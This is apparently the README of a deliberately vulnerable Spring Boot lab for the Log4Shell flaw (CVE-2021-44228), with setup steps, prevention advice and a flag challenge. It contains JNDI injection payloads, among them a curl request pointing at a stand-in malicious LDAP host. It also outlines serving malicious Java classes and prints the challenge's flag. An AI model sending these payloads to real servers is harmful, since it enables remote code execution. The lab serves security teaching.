 # Log4j Vulnerable Application

This is a deliberately vulnerable Spring Boot application that demonstrates the Log4Shell vulnerability (CVE-2021-44228).

## ⚠️ WARNING

This application contains intentionally vulnerable code for educational purposes only. **DO NOT deploy in production environments!**

## What is Log4Shell?

Log4Shell is a critical vulnerability in Apache Log4j that allows remote code execution through JNDI lookups. The vulnerability affects Log4j versions 2.0-beta9 through 2.14.1.

## Application Details

- **Framework**: Spring Boot 2.5.0
- **Vulnerable Component**: Log4j 2.14.1
- **CVE**: CVE-2021-44228
- **Port**: 8080 (mapped to 8081 on host)

## Vulnerable Endpoint

The application has a vulnerable search endpoint that logs user input without sanitization:

```
GET /search?q=<payload>
```

## How to Exploit

1. **Start the container**:
   ```bash
   docker-compose up -d --build
   ```

2. **Access the application**:
   ```
   http://localhost:8081
   ```

3. **Test the vulnerable endpoint**:
   ```bash
   curl "http://localhost:8081/search?q=\${jndi:ldap://malicious-server.com/exploit}"
   ```

4. **Exploit with a real payload**:
   - Set up an LDAP server that serves malicious Java classes
   - Use a payload like: `${jndi:ldap://your-ldap-server:1389/Exploit}`
   - The application will attempt to load and execute the malicious class

## Flag Challenge

The application contains a flag file at `/app/flag.txt` inside the container. To complete the challenge:

1. Exploit the Log4Shell vulnerability to gain remote code execution
2. Read the flag file: `cat /app/flag.txt`
3. Submit the flag: `FLAG{Log4Shell_Exploit_2024_7X9Y2Z}`

## Docker Commands

```bash
# Start the vulnerable application
docker-compose up -d --build

# Check if it's running
docker ps --filter "name=log4j-vulnerable-app"

# View logs
docker logs log4j-vulnerable-app

# Access the container
docker exec -it log4j-vulnerable-app sh

# Stop the application
docker-compose down
```

## Educational Resources

- [OWASP Log4Shell Guide](https://owasp.org/www-community/vulnerabilities/Log4Shell)
- [CVE-2021-44228 Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
- [Apache Log4j Security Advisories](https://logging.apache.org/log4j/2.x/security.html)

## Prevention

To prevent Log4Shell:

1. **Update Log4j** to version 2.15.0 or later
2. **Disable JNDI lookups** by setting `log4j2.formatMsgNoLookups=true`
3. **Remove JndiLookup class** from the classpath
4. **Use security managers** to restrict JNDI access
5. **Validate and sanitize** all user input before logging

## Disclaimer

This application is created solely for educational purposes to help security professionals understand and test the Log4Shell vulnerability in a controlled environment. The authors are not responsible for any misuse of this application. 